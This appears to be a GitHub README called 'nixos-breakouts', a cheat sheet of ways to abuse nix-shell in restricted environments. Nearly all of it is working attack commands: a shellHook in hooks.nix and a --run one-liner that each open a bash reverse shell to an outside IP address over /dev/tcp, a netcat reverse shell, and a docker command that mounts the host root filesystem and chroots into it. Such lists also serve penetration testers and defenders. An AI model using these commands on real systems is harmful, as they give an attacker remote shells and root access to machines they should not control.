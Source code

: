# nixos-breakouts

https://nixos.org/

Some options with 'nix-shell' in restricted environments.


*Execute CMD*

```
0f084cc1ea88:/# cat hooks.nix 
# hooks.nix
with (import <nixpkgs> {});
mkShell {
  shellHook = ''
     bash -i >& /dev/tcp/192.168.1.38/9090 0>&1    
  '';
}

0f084cc1ea88:/# nix-shell hooks.nix 

```

*Alternative Execute CMD*

```
nix-shell -p --run "bash -i >& /dev/tcp/192.168.1.38/9090 0>&1"

```

*Download (Package) & Execute*

```
nix-shell -p netcat --run "nc 192.168.1.38 9090 -c -e /bin/sh"

```
Packages available:

https://search.nixos.org/packages

e.g.

```
nix-shell -p docker --run "docker run -v /:/mnt --rm -it alpine chroot /mnt sh"

```
